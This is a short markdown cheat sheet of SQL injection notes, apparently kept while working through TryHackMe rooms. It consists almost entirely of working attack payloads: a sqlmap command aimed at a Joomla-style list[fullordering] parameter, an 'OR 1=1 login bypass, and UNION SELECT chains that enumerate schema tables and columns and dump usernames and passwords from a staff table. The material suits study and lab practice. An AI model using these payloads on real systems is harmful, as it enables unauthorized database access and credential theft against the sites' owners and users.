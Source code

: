 # SQL Injection
https://tryhackme.com/room/sqlinjectionlm

## SQLMap
https://tryhackme.com/room/sqlmap
sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

## Auth Bypass
'OR 1=1;--

## Union SQLi
0 UNION SELECT 1,2,3
0 UNION SELECT 1,2,database()
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'dbname'
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'tbname'
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users